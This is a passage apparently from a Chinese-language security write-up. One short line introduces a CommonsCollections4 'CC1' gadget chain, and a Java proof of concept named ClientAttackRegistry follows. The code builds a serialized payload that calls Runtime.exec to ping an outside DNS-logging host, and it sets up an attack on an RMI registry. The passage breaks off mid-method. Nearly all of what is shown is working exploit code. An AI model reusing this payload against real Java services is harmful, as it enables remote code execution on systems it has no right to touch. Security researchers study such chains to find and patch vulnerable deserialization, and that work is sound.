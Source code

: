 打一个`commons-collections4 4.0`的 CC1 链，挺简单的不啰嗦了，书写 Poc 如下-->

```java
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.TransformedMap;
import org.apache.commons.collections4.Transformer;
import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import java.io.ObjectOutput;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.util.HashMap;
import java.util.Map;

public class ClientAttackRegistry {

    private static Object getPayload() throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> transformedMap = TransformedMap.transformingMap(map,null,chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, transformedMap);
        return instance;
    }

    private static final Operation[] operations = new Operation[]{
            new Operation("void bind(java.lang.String, java.rmi.Remote)"),
            new Operation("java.lang.String list()[]"),
            new Operation("java.rmi.Remote lookup(java.lang.String)"),
            new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
            new Operation("void unbind(java.lang.String)")
    };

    public static void lookup(RegistryImpl_Stub registry) throws Exception {
        Class<?> clazz = Class.forName("java.rmi.server.RemoteObject");
```
